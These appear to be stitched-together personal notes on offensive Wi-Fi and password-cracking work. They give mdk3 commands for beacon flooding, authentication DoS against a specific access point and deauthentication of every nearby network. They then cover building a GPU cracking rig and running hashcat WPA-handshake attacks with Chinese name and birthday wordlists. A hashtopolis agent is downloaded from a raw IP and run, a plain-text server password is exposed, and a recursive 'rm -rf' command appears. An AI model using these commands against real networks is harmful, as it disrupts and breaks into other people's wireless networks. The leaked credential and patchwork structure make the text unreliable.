        dic11dic23dic31
        dic11dic23dic32
        dic11dic23dic33
        dic12dic21dic31
        dic12dic21dic32
        dic12dic21dic33
        dic12dic22dic31
        dic12dic22dic32
        dic12dic22dic33
        dic12dic23dic31
        dic12dic23dic32
        dic12dic23dic33
        dic13dic21dic31
        dic13dic21dic32
        dic13dic21dic33
        dic13dic22dic31
        dic13dic22dic32
        dic13dic22dic33
        dic13dic23dic31
        dic13dic23dic32
        dic13dic23dic33
## mdk3 
### installation
* 首先获取源代码

            wget http://linux.gungoos.com/mdk3-v6.tar.gz
            tar xvzf mdk3-v6.tar.gz
            cd mdk3-v6
  如果遇到这种错误,试试直接用Firefox访问那个地址下载吧。
* 修改Makefile文件

            sudo vim Makefile
    将 “-lpthread” 替换成 “-pthread”。之后按ctrl + x -> Y (enter) -> enter
* 编译

        sudo make
    这里make之后会刷出很多warnings，但并不影响编译。
* 安装

        sudo make install
* 测试

        sudo mdk3
### use modes
#### Beacon Flood Mode
这个模式可以产生大量死亡SSID来充斥无线客户端的无线列表，从而扰乱无线使用者；我们甚至还可以自定义发送死亡SSID的BSSID和ESSID、加密方式（如wep/wpa2）等。

        mdk3 mon0 b
              -n <ssid>        #自定义ESSID
              -f <filename>            #读取ESSID列表文件
              -v <filename>           #自定义ESSID和BSSID对应列表文件
              -d         #自定义为Ad-Hoc模式
              -w         #自定义为wep模式
              -g           #54Mbit模式
              -t            # WPA TKIP encryption
              -a           #WPA AES encryption
              -m          #读取数据库的mac地址
               -c <chan>                   #自定义信道
               -s <pps>                #发包速率
        mdk3 --help b  #查看详细内容
##### Example 1
`sudo mdk3 mon0 b -f wordlist1.txt -a -c 6 -s 80`

./wordlist1.txt

        burpS
        WPSHAK
##### Example 2
固定FakeAP的MAC
`sudo mdk3 mon0 b -v wordlist2.txt -a -c 6 -s 80`

./wordlsit2.txt

        AA:BB:CC:DD:AA:EE burpSuite
        11:22:33:DD:AA:EE WPSHAK
##### 效果说明
PC可以容易看到 FakeAP，但是 Android 的 WLAN 扫描不容易看到，原因暂不明。
#### Authentication Dos Mode
##### 详细说明
这是一种验证请求攻击模式：在这个模式里，软件自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应；这个模式常见的使用是在 reaver 穷据路由 PIN 码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由。

        mdk3 mon0 a
              -a <ap_mac>              #测试指定BSSID
              -m              #使用有效数据库中的客户端mac地址
              -c          #对应 -a ，不检查是否测试成功
              -i  <ap_mac>           #对指定BSSID进行智能攻击
              -s <pps>               #速率，默认50
##### Example 1
`sudo mdk33 mon0 a -a EC:88:8F:A1:A5:90 -s 200`
似乎无效
手机连接AP正常上网
#### Deauthentication/Disassociation Amok Mode
##### 详细说明
这个模式看名称就知道大概了：强制解除验证解除连接！在这个模式下，软件会向周围所有可见AP发起循环攻击……可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式），直到手动停止攻击。

        mdk3 mon0 d
              -w <filename>             #白名单mac地址列表文件
              -b <filename>              #黑名单mac地址列表文件
              -s <pps>                        #速率，这个模式下默认无限制
              -c [chan,chan,chan,...]                  #信道，可以多填，如 2,4,5,1
##### Example 1
`sudo mdk3 d -s 120 -c 1,6,11`
#### Basic probing and ESSID Bruteforce Mode
##### 详细介绍
基本探测AP信息和ESSID猜解模式

        mdk3 mon0 p
              -e <ssid>          #待检测的ssid
              -f <filename>          #检测AP设置为隐藏的ssid列表文件
              -t <bssid>               #用bssid检测AP的信息
              -s <pps>                #速率，默认300
              -b <character set>              #设置字符集

## Building my own cracking box

I could build my own cracking box and plenty of people have done that only run you a few thousand dollars. Roughly speaking to build a decent GPU based cracking box let's say it's going to cost you thousand dollars per box plus roughly five hundred dollars per GPU, really depends on what GPU you decide to purchase and there's different GPUs that crack passwords at different rates and it is not really what they're designed for cracking but they're designed for graphical intents purposes and it just so happens they work really well for cracking passwords.
So if I was building my own box as I mentioned it cost me a few thousand dollars I mean really depends like a through 8 GPUs in it and increase the cost by four thousand dollars but it's only on perform about eight times faster than a machine with on GPU in it. To do this though I need a beefy power supply. These types of machines suck up a lot of power so I need really good cooling. The CPU and RAM are not very important for these types of purposes so so if you're building machine there's no real reason to max it out with the highest and CPU with multiple cores and a tremendous amount of RAM. And you probably if you're going to build a machine would probably want to put more than one GPU in it but but you could always start off with one GPU and if you need it to you could add additional GPUs as long as you have the right slots for doing that. 
Nvidia Tesla cards in AWS EC2 instance are very very expensive GPU cards and unfortunately they're not optimized for doing a password cracking but they're designed for doing things like financial modeling and very high-end things that require floating-point mathematics that are not important for password cracking. So that's the only option they have available and so that's what I utilized. If you're building your own box you would want not to use those cards. I think they run probably around two or three thousand dollars a piece when Amazon launched a service a couple years ago that was substantially more expensive than that, but they're going to perform at a less effective rate than a five-hundred-dollar card you can buy commercially. So do not buy an nvidia tesla card for password cracking.
The most important piece of hardware you need to crack passwords is a fast GPU. Because cracking passwords is like mining Bitcoins, you can get a good idea of how your GPU would perform by how well it would mine Bitcoins.
This site provides a good list of available video cards and describes their performance: https://en.bitcoin.it/wiki/Mining_hardware_comparison. When you look at that site, what you'll notice is that **AMD GPUs tend to be much faster than NVIDIA GPUs**, even though for gaming often the reverse is true. The reason for this is explained in detail in the explanation of why a GPU mines faster than a CPU, but in short, AMD GPUs tackle the problem of graphics rending with a lot of small, simple chips that perform 32-bit operations quickly. NVIDIA GPUs have fewer, but more sophisticated chips that are closer to a CPU in complexity. For the purposes of Bitcoin mining or password cracking, which can be highly parallel, those larger number of simple chips work the fastest. Also note that cracking software can take advantage of multiple GPUs, so if you can afford it, and your motherboard can support it, you may find **you'll get the same performance out of two cheaper GPUs than a single expensive one**.
In my case, I didn't have a desktop PC lying around I could use for this, so I built a special desktop just for password cracking. In case you want to follow in my footsteps, here is my exact hardware along with prices:

* GPU: SAPPHIRE FleX 100312FLEX Radeon HD 6950 2GB: $280
* Power supply: RAIDMAX HYBRID 2 RX-730SS 730W: $60
* Motherboard: ASUS M4A88T-V: $95
* CPU: AMD Phenom II X6 1090T Black Edition Thuban 3.2GHz: $170
* RAM: Corsair CMX4GX3M2B2000C9 4Gb 240-pin DDR3: $55
* Storage: Seagate ST95005620AS 500GB 7200 RPM Hybrid Drive: $100
* Case: already owned
* Total: $760, $930 with monitor, $340 just GPU + PS
If you already have a desktop that supports a modern video card, you may need to purchase only the GPU and power supply. Keep in mind that modern high-performance video cards require a lot of power, so you'll want at least a 700W power supply in your case, and more than that if you intend to chain two video cards together. I found that the AMD 6950 had good performance for my budget, plus this particular model can theoretically be turned into a 6970 with a firmware update. If you have a larger budget though, you may want to buy two or more 6950s and chain them together.
So there you have it. You now have a month to get your hardware together, and next, I'll discuss the software side of password cracking, explain dictionary, brute-force and mask attacks, and give specific examples with my password-cracking system.
### Choosing GPU

GPU|hashrates|hashrates|hashrates(K)|price of a new one|yuan/K|price of used|yuan/K
--|--|--|--|--|--|--|--
Nvidia GTX 1080Ti|576000 hash/s|576000|576K|11000|19.0972222222222|4500|7.8125
GeForce GTX titan XP|520000 hash/s|520000|520K|11000|21.1538461538462||0
**rx vega**||410000|410K|2700|6.58536585365854||
Nvidia GTX 1080|396800 hash/s|396800|396.8K||0|2899|7.30594758064516
Radeon R9 295 x2|347000 hash/s|347000|347K||0||0
GeForce GTX 1070|285000 hash/s|285000|285K||0|2000|7.01754385964912
GeForce GTX titan X|279000 hash/s|279000|279K||0||0
GeForce GTX 980 Ti|240000 hash/s|240000|240K||0||0
Radeon RX 580|224000 hash/s|224000|224K|1500|6.69642857142857|900|4.01785714285714
Radeon R9 390X|200000 hash/s|200000|200K||0||
GeForce GTX 980|200000 hash/s|200000|200K||0||
GeForce GTX titan Z|188000 hash/s|188000|188K||0||
Radeon RX 480|185000 hash/s|185000|185K||0||

The targeted workloads of the different cards are not the same across AMD and NVIDIA. Traditionally, NVIDIA has spent a much stronger effort on optimizing floating point operations and arithmetic while AMD put a stronger focus on integers and bitwise operations. This has lead to the commonality of NVIDIA being better for various scientific calculations and AMD being better for general cryptography. Recent changes in architectures (on both sides) have been closing that gap.
* If you can, go for NVidia
    HashCats Support for NVidia is much better, especially with Linux (what would have been my favorite combination).
* If you go for AMD, prepare for trouble
* (whatever you get, make sure its a founders edition. Sometimes called a reference card/edition)
### Tips
* And a decent cooling system is required to keep them operating at peak performance. Liquid cooling is good.
* i7? Need to function as a PC as well, so not to choose a too low level CPU. Or an appropriate AMD CPU?
* A good option is to buy a gaming motherboard.
* Also note that most open-air frames will require the use of risers in order to work (more on this later.)
* For the low cost of jumper switches, it's worth just buying a few of these.
* risers
    * if you are looking for absolute maximum performance then don't use risers.
    * I've actually had some really good experience with USB3-based PCIe risers.
    * For PCIe 1.0 this is not a problem, and in most cases PCIe 2.0 should also work fairly well. PCIe 3.0 and newer, however, may decide to hate you something fierce if you use risers. (This will be especially true with USB3-based risers, as USB3 is not capable at transmitting at PCIe 3.0 bus speeds.)
        Fortunately, some of the better modern BIOS you will find (like the ones on gaming motherboards) should allow you to set the speed of your PCIe bus and downgrade it to an earlier spec. This option will be specific to each BIOS, so consult your documentation for precise steps. Once you drop the speed of the bus, however, running with good quality risers should be no problem.
    * 16GB RAM
RAM is cheap, buy as much as you can afford and fit in your motherboard
    * Intel i5 or i7 CPU
You're not gaining much performance by going to the i7, but if you got a little extra $$, go for it.
* Note that the mother board should support the SSD: M.2 SSD, SATA M.2 and so on.
### Hardware List
#### [One Hardware list](https://ethicalhackingblog.com/building-a-password-cracking-machine-with-5-gpu/)
Name|Description|Price(Prices may change over the time)|Link
--|--|--|--
CPU|Intel Core i5-7500 LGA 1151 7th Gen Core Desktop Processor (BX80677I57500)|188 USD|On Amazon
RAM|Ballistix Sport LT 8GB Single DDR4 2666 MT/s (PC4-21300) SR x8 DIMM 288-Pin Memory - BLS8G4D26BFSEK (Red)|87 USD|On Amazon
Harddisk|DREVO X1 Series 120GB SSD 2.5-inch Solid State Drive SATA3 Read 550M/S Write 400M/S|55 USD|On Amazon
Motherboard|MSI Pro Series Intel Z270 DDR4 HDMI USB 3 SLI ATX Motherboard (Z270 SLI PLUS)|125 USD|On Amazon
PSU|EVGA SuperNOVA 1000 G3, 80 Plus Gold 1000W, Fully Modular, Eco Mode with New HDB Fan, 10 Year Warranty, Includes Power ON Self Tester, Compact 150mm Size, Power Supply 220-G3-1000-X1|190 USD|On Amazon
VGA Cards|EVGA GeForce GTX 1060 SC GAMING, ACX 2.0 (Single Fan), 6GB GDDR5, DX12 OSD Support (PXOC), Only 6.8 Inches Graphics Card 06G-P4-6163-KR|260 USD|On Amazon
Power Switch|SoundOriginal Refit Desktop Computer Case Motherboard Power Supply Reset HDD Button Switch (63inch 160cm)|9 USD|On Amazon
Rig|A Rig for 8 GPUs (bought from Amazon but is out of stock)|130 USD|N/A
PCIE Risers|YIKESHU 6 Pack PCIe PCI-E 16x 8x 4x 1x Powered Riser Adapter CardCard w/ 60cm USB 3.0 Extension Cable & 6 Pin PCI-E to SATA Power Cable - GPU Riser Adapter Extender Cable - Ethereum Mining ETH|40 USD|On Amazon
Screws|VAPKER PC Computer Screws Standoffs Set Assortment Kit|20 USD|On Amazon
Power Meter|RioRand Plug Power Meter Socket Energy Watt Voltage Amps Meter with Backlight Reduce Your Energy Costs|17 USD|On Amazon
Tweezers|PIXNOR Tweezers 7-Piece Precision ESD Anti-Static Stainless Steel Tweezers for Electronics|8 USD|On Amazon

#### Another list
1 x SuperMicro SYS-7048GR-TR 4U Server with X10DRG-Q Motherboard = $1,989.99 (NewEgg)
2 x Intel Xeon E5-2620 v3 2.4 GHz LGA 2011-3 85W = $469.98 (Ebay)
4 x Nvidia GTX 1070 Founders Edition = $1,737.14 (Jet.com)
2 x Samsung 850 Pro 512GB SATA3 SSD = $412.24 (Jet.com)
4 x Kingston Server ValueRAM DDR4 2133MHz 16GB = $391.96 (NewEgg)
TOTAL = $5001.31


#### [Another list](https://www.blackhillsinfosec.com/build-password-cracker-nvidia-gtx-1080ti-gtx-1070/)
ASUS X99-E WS/USB 3.1 LGA 2011-v3 Intel X99 SATA 6Gb/s USB 3.1 USB 3.0 CEB Intel Motherboard
QTY 1: $515
https://www.newegg.com/Product/Product.aspx?Item=N82E16813182968
EVGA GeForce GTX 1080 Ti FE DirectX 12 11G-P4-6390-KR
QTY 4 @ $700 ~$2800
https://www.newegg.com/Product/Product.aspx?Item=N82E16814487335
Intel Core i7-6800K Broadwell-E 6-Core 3.4 GHz LGA 2011-v3 140W BX80671I76800K Desktop Processor
QTY 1: $440
https://www.newegg.com/Product/Product.aspx?Item=N82E16819117649
G.SKILL TridentZ Series 64GB (4 x 16GB) 288-Pin DDR4 SDRAM DDR4 3200 (PC4 25600) Intel X99 Platform Desktop Memory Model F4-3200C16Q-64GTZKO
QTY 1: $509
https://www.newegg.com/Product/Product.aspx?Item=N82E16820232331
MasterAir Pro 4 CPU Air Cooler with Continuous Direct Contact Technology 2.0 by Cooler Master
QTY 1: $46 **
https://www.newegg.com/Product/Product.aspx?Item=N82E16835103229
Athena Power RM-4U8G525 Black SGCC (T=1.2mm) 4U Rackmount Server Case 2 External 5.25″ Drive Bays – OEM
QTY 1: $250
https://www.newegg.com/Product/Product.aspx?Item=N82E16811192442
Rosewill 1600W Modular Gaming Power Supply, Continuous @ 50 Degree C, 80 PLUS GOLD Certified, SLI & CrossFire Ready – HERCULES-1600S
QTY 1: $350
https://www.newegg.com/Product/Product.aspx?Item=N82E16817182251
SAMSUNG 850 EVO 2.5″ 500GB SATA III 3-D Vertical Internal Solid State Drive (SSD) MZ-75E500B/AM
QTY 1: $200 **
https://www.newegg.com/Product/Product.aspx?Item=N82E16820147373
Total for new password cracking machine
$5110
### [Install the drivers](https://www.unix-ninja.com/p/Building_a_Password_Cracking_Rig_for_Hashcat_-_Part_III)

[A reference](https://gist.github.com/alexanderjsingleton/d00a56a51127e73b70a2cdffcd75c9e2)
I am going to cover the steps for installing both AMD and NVIDIA drivers for completeness, however I would strongly encourage you to use NVIDIA cards in your builds. The AMD drivers are essentially garbage.
#### set BIOS
* download the latest BIOS driver
* press F7 into advanced mode, and then click M-flash to update BIOS
* 4g memory/crpto currency mining to enable
* Super IO configuration
    * COM to disable
    * LPT port to disable
 Ensure to enable in BIOS PCIe/Above 4G Decoding
#### Installing Ubuntu
Boot install Ubuntu from USB. Once complete proceed:
    1) Set to not login automatically at boot
    2) Ensure your rig is network cabled or WiFi connected to the internet
    3) From terminal install updates:
        sudo apt-get update
        sudo apt-get upgrade -y
#### [Outline of installing Ubuntu](https://help.ubuntu.com/community/Installation/FromUSBStick)
Ubuntu 16.04: https://www.ubuntu.com/download/server
The general procedure to install Ubuntu (or Ubuntu flavour, Kubuntu, Lubuntu, Xubuntu, ...) from a USB flash drive is:
 * Acquire the correct Ubuntu installation files ('the ISO')
 * Put Ubuntu onto your USB flash drive
 * Configure your computer to boot from USB flash drive and boot from it
 * Try Ubuntu (Kubuntu, Lubuntu, Xubuntu, ...) before installing it
 * Install Ubuntu to your internal drive (hard disk drive or solid state drive).
#### Post-Install Configuration
Config the afterburner settings
#### Install Intel OpenCL driver
1) From terminal install dependencies
    sudo apt-get install lsb-core -y
    sudo apt-get install opencl-headers -y
2) Download Intel OpenCL driver (link above) into "Downloads" directory (http://registrationcenter-download.intel.com/akdlm/irc_nas/9019/opencl_runtime_16.1_x64_ubuntu_5.2.0.10002.tgz)
3)

        tar -xvzf opencl_runtime_16.1_x64_ubuntu_5.2.0.10002.tgz
        cd opencl_runtime_16.1_x64_ubuntu_5.2.0.10002/
        sudo bash install.sh
        Accept Terms of Agreement and install
#### Install OpenCL runtime (not required but why not, use those CPUs too)

        wget http://registrationcenter-download.intel.com/akdlm/irc_nas/9019/opencl_runtime_16.1.1_x64_ubuntu_6.4.0.25.tgz
        tar -xvf opencl_runtime_16.1.1_x64_ubuntu_6.4.0.25.tgz
        cd opencl_runtime_16.1.1_x64_ubuntu_6.4.0.25
        ./install.sh
#### Check everything is OK without the GPU Cards
#### AMD Drivers
#### NVIDIA Drivers
using:
sudo apt update && sudo apt install -y build-essential linux-headers-$(uname -r) p7zip-full linux-image-extra-virtual && sudo touch /etc/modprobe.d/blacklist-nouveau.conf && echo "blacklist nouveau" |sudo tee /etc/modprobe.d/blacklist-nouveau.conf && echo "blacklist lbm-nouveau" |sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && echo "options nouveau modeset=0" | sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && echo "alias nouveau off" | sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && echo "alias lbm-nouveau off" | sudo tee -a /etc/modprobe.d/blacklist-nouveau.conf && sudo echo options nouveau modeset=0 | sudo tee -a /etc/modprobe.d/nouveau-kms.conf && sudo update-initramfs -u

Reboot the instance

wget https://us.download.nvidia.com/XFree86/Linux-x86_64/410.93/NVIDIA-Linux-x86_64-410.93.run && sudo /bin/bash NVIDIA-Linux-x86_64-410.93.run

run `nvidia-smi -q -d SUPPORTED_CLOCKS > tmp.txt`
sudo nvidia-smi -pm 1 && sudo nvidia-smi -acp 0 && sudo nvidia-smi --auto-boost-permission=0 && sudo nvidia-smi -ac 877,1530
there's no way to overclock an nvidia GPU without X - nvidia-settings is the only way to currently oc 10xx cards. So in the end, I ended up with ubuntu 16.04-gnome (gnome is much lower overhead than unity as of current it uses like 60MB on one GPU)
=====================================
NVidia Drivers: http://www.nvidia.com/Download/index.aspx
Avoid PCIe slot number two on the motherboard. So the second GPU will be inserted at PCIe slot number 3.
3) Download Nvidia Linux x86_64 375.30 Driver (link above) into "Downloads" directory (https://us.download.nvidia.com/XFree86/Linux-x86_64/410.93/NVIDIA-Linux-x86_64-410.93.run http://www.nvidia.com/download/driverResults.aspx/111596/en-us)
cd Downloads
1) At reboot DO NOT LOGIN
2) At login screen Ctrl + Alt + F1 and login with user/pass at command prompt
3) Create the /etc/modprobe.d/blacklist-nouveau.conf file :
cd /etc/modprobe.d/
sudo touch blacklist-nouveau.conf
sudo vi blacklist-nouveau.conf
Insert below text:
blacklist nouveau
options nouveau modeset=0
4) sudo update-initramfs -u
5) Reboot computer.
sudo reboot
6) At reboot DO NOT LOGIN
7) At login screen Ctrl + Alt + F1, and login with user/pass at command prompt
8) Go to "Downloads" directory where you have NVIDIA-Linux-x86_64-375.20.run driver
chmod a+x .
9) sudo service lightdm stop
10) sudo bash NVIDIA-Linux-x86_64-375.20.run --no-opengl-files
VERY important to include the "--no-opengl-files" parameter
11) During the install of Nvidia driver:
-Accept License
-Select Continue Installation
-Select “NO” to not install 32bit files
-Select “NO” to rebuilding any Xserver configurations with Nvidia.
12) sudo modprobe nvidia
13) sudo service lightdm start
14) Ctrl + Alt + F7
-Login to your session through the GUI
DONE
BEGIN CRACKING WITH HASHCAT
#### Installing Hashcat
`wget https://hashcat.net/files/hashcat-5.1.0.7z`
`7z x hashcat-5.1.0.7z`
`cd hashcat-5.1.0`
`./hashcat64.bin -I`
`./hashcat64.bin -d 1,2,3,4`
#### install the hashtopolis client

sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF && echo "deb http://download.mono-project.com/repo/debian wheezy main" | sudo tee /etc/apt/sources.list.d/mono-xamarin.list && sudo apt-get update && sudo apt-get -y install mono-complete ca-certificates-mono && mkdir hashtopolis && cd hashtopolis && wget http://34.201.59.34/agents.php?download=1 -O hashtopolis.zip && sudo apt -y install python3-pip && pip3 install psutil && python3 hashtopolis.zip

http://34.201.59.34/api/server.php
Woaini123
Check the agents
#### Turbo???
#### [Hashview](https://www.shellntel.com/blog/2017/2/8/how-to-build-a-8-gpu-password-cracker)!!!

### Setting up a Windows agent?
#### Install the system
#### set the BIOS
#### set the share folder
#### set the ftp server
* install the filezilla server version
* set the admin interface port and password
* create a group and set the home directory
* create a user and password and set the home directory
* set the filezilla
    * Welcome message
    * Passive mode settings
        * Use custom port range: 50000-51000
        * use the following IP: 192.168.10.12
* add the in and out rule in the firewall setting
    * 21 in and out
    * 50000-51000 in and out
* type `pass` to use passive mode
* to transfer between Linux and windows
    * type `binary` and then type `pass`
#### proxy
#### install the Intel CPU and GPU drivers and opencl runtime
cannot use integrated GPU???
Plug the HDMI cable on the port of the integrated graphic card if you want to use the integrated card.
1. Completely uninstall the current driver
  * Windows: use software center
  * Linux:
    * NVIDIA: nvidia-uninstall
    * AMD: amdconfig --uninstall=force
    * If you installed the driver via a package manager (Linux), then you need to remove these packages too
    * Make sure to purge those package, not to just uninstall them
2. Reboot
3. For Windows only: download and start Driver Fusion (free version is enough; select “Display”, AMD/NVidia/Intel, ignore the warning about Premium version), then Reboot
4. Make sure that no Intel OpenCL SDK, AMD-APP-SDK or CUDA-SDK framework is installed – if it is installed, uninstall it!
5. For Windows only: manually delete remaining OpenCL.dll, OpenCL32.dll, OpenCL64.dll files on all folders. You should find at least 2. They usually reside in “c:\windows\syswow64” and “c:\windows\system32”. This step is very important!
6. For Linux only:

        dpkg -S libOpenCL to find all packages installed that provide a libOpenCL, then purge them
        find / -name libOpenCL\* -print0 | xargs -0 rm -rf
7. Reboot
8. For Linux only: apt-get install ocl-icd-libopencl1 opencl-headers clinfo
9. Install the driver recommended on https://hashcat.net/hashcat/. If it says *exact* it means exact.
    * install the drivers first, including drivers for CPU and GPU.
        * "Intel Driver and Support Assistant Installer" and "Driver Genius" can be used
        * make sure the drivers has been installed properly
    * then run the "opencl_runtime_16.1.2_x64_setup.exe"
    * then run the "intel_sdk_for_opencl_2017_7.0.0.2567"
    For AMD GPUs, see ROCm instructions here.
10. Reboot
11. For Linux only: rm -rf ~/.hashcat/kernels
12. Reinstall hashcat, choose:
    * Stable version: Download and extract (under Linux, make sure to use: “7z x” to extract) the newest hashcat from https://hashcat.net/
    * Beta version: https://hashcat.net/beta/
    * Development version: git clone https://github.com/hashcat/hashcat
13. For Linux only: try to run “clinfo” first in your terminal
14. Try to run hashcat --benchmark
    * add `--force` and `-D 1,2` to the command
#### Bitvise Client and Bitvisee server
* on the server
    * Access control
        * Windows groups: check the "Everyone" to be allowed access.
        * Add a local account
    * Enable the remote desktop in the system setting
* skills on ssh on Windows
    * use ssh instead of RDP to save resources
    * `.\a1commands_multiple.bat`
    * how to edit and save file on putty
    * Screen -S
    * to check the memory usage
        * `wmic OS get FreePhysicalMemory /Value`
    * to check the cpu usage
        * `wmic cpu get loadpercentage`
#### test hashcat
#### turbo and test the speed
#### set up hashtopolis
.NET 4.5 Run-time is needed, the included client provided will only run on 64-bit machines.
* install python and python3
    * [download python3](https://www.python.org/downloads/)
    * run the downloaded installer and check "add to path"
    * python -v
    * pip -v
* install pip and pip3
* pip3 install psutil
* mkdir hashtopolis && cd hashtopolis
* download hashtopolis.zip from from http://34.201.59.34/agents.php?download=1
* python3 hashtopolis.zip
    * run `pip install requests` if prompted with "No module requests"

http://34.201.59.34/api/server.php
Woaini123
#### [Overclocking](https://www.overclockersclub.com/guides/nvidia_gtx_1080ti_oc_guide/)
Overclocking can only be done on Windows.
Do not Over clock if you want to avoid stuck for running a long time.
##### Tools needed
* suggested softwares:
  * GPU-Z
  * MSI Afterburner
  * HWMonitor
  * Unigine Heaven Benchmark
* Per Brand:
  * EVGA: EVGA Precision XOC
  * Zotac: FireStorm Utilty
  * MSI: MSI Afterburner
  * Gigabyte: Xtreme Engine Gaming
  * ASUS: GPU Tweak II
* Software used
  * GPU-Z
  * Unigine Heaven Benchmark
  * ASUS: GPU Tweak II
  * AORUS Engine
* basics
    * GPU Clock: the base clock
    * Boost Clock: overclocked GPU Clock by manufacture
* how to overclock
    * test by running hashcat64.exe
    * drag the "Power Target" to the largest
    * leave "Fan Speed" default
    * increase the Boost Clock and Memory Clock gradually by 10 and test with hashcat, make sure hashcat can run stably for a long time without crash or stuck.
    * the appropriate parameter for 1080ti
        * Boost Clock: 1770
        * Memory Clock: 11540
        * Fan Speed: default
        * Power Target: max
        * Temperature limit: max
#### Tasks can only be run on agents
##### -a 0
The hashrate of dictionary task will gets down when being run through hashtopolis on agents. So run `-a 0` on agent locally, not through hashtopolis.
Actually the hashrate of all ataacking modes will get down through hashtopolis on agents, but the `-a 0` mode the worst.
Caculate the total time by timing number of hashes to decide whether via hashtopolis or not. Normally speaking, run through hashtopolis when there are many hashes to crack.
adding `--brain-client` on the agent will lower the hashrate.
I was doing bitcoin and litecoin mining, can I use my FPGA or ASIC for hashcat?
FPGA are sub-optimal for advanced password cracking in a few key ways. They are best for brute forcing single hash of a single algorithm (like bitcoin). They do not provide the flexibility needed for multiple attack modes, multiple hashes, or multiple algorithms. Too much would have to be done on the host system.
The problem with ASIC is that they are, by definition, application-specific. Bitcoin ASIC will only work for bitcoin, and nothing else. Well, you could attempt to use them for password cracking, but you would only be able to crack passwords that were exactly 80 characters long and hashed as double SHA256. So, virtually worthless for anything but bitcoin.
By the same token, building ASIC specifically for password cracking would be a huge waste of time and money. And to make an ASIC that was flexible enough to handle multiple hashes, multiple algorithms, and multiple attack modes, you'd essentially just end up with a GPU. They really are the sweet spot. cheap, fast, flexible, easy to program.
##### -a 1
* a1commands_single.bat:

        hashcat64.exe --session names_1234d -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\1234d.txt
        del names_1234d.restore
        hashcat64.exe --session family_names_1234d -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\1234d.txt
        del family_names_1234d.restore
        hashcat64.exe --session shengmu_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt
        del shengmu_years_months_days.restore
        hashcat64.exe --session shengmu_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\months_days.txt
        del shengmu_months_days.restore
        hashcat64.exe --session months_days_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\months_days.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt
        del months_days_shengmu.restore
        hashcat64.exe --session shengmu_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt
        del shengmu_shengmu.restore
        hashcat64.exe --session shengmu_months_days_shengmu_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu_months_days.txt C:\Users\cdutboy\Dropbox\others\shengmu_months_days.txt
        del shengmu_months_days_shengmu_months_days.restore
        hashcat64.exe --session shengmu_shengmu_1234d -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\shengmu_1234d.txt
        del shengmu_shengmu_1234d.restore
        hashcat64.exe --session names_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt
        del names_years_months_days.restore
        hashcat64.exe --session names_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\months_days.txt
        del names_months_days.restore
        hashcat64.exe --session family_names_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt
        del family_names_years_months_days.restore
